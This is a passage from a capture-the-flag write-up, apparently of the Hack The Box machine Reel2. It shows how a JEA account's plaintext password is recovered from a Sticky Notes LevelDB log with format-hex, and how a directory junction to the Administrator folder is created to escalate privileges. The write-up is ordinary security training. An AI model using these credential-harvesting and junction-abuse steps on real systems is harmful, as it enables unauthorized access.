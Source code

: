 ```powershell
# User roles (security groups), and the role capabilities that should be applied to them when applied to a session
RoleDefinitions = @{
    'htb\jea_test_account' = @{
        'RoleCapabilities' = 'jea_test_account' } }

# Language mode to apply when applied to a session. Can be 'NoLanguage' (recommended), 'RestrictedLanguage', 'ConstrainedLanguage', or 'FullLanguage'
LanguageMode = 'NoLanguage'
```

As shown above, there was a `jea_test_account` on the server which was able to read files from the `C:\ProgramData\*` directory. I still didn't have any additional information, but it was worth noting down at this point.

### Stick Notes Exploration

While looking into the user's home directory, I noticed that there was a `Sticky Notes.lnk` file. Since it was a user created process, AppData contains the log information for a user's context. Going into `LevelDB`, there is a rather large log file: `000003.log`. I used the following command to perform a hexdump of the file, since using the generic `type` command just produced unreadable content:

```powershell
type *.log | format-hex
```

The hexdump showed us the password for the `jea_test_account` that we identified earlier:

```json
{"first":"<p>Credentials for JEA</p><p>jea_test_account:Ab!Q@vcg^%@#1</p>","back":"rgb(255, 242, 171)","title":"rgb(255, 235, 129)","wid":"350","hei":"375","deleted":"no","closed":"yes","locked":"no"}
```

Since I had access to the JEA account and I knew that the user was able to access the `ProgramData` directory. I tried to create a symlink to the `Administrator` directory.

## Privilege Escalation with Symlink
In order to create the symlink to the Administrator directory, I used the following command:

```powershell
New-Item -ItemType Junction -Path 'C:\ProgramData\JEA' -Target 'C:\Users\Administrator'
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Reel2/img13.png"  style="width: 80%" />
</p>
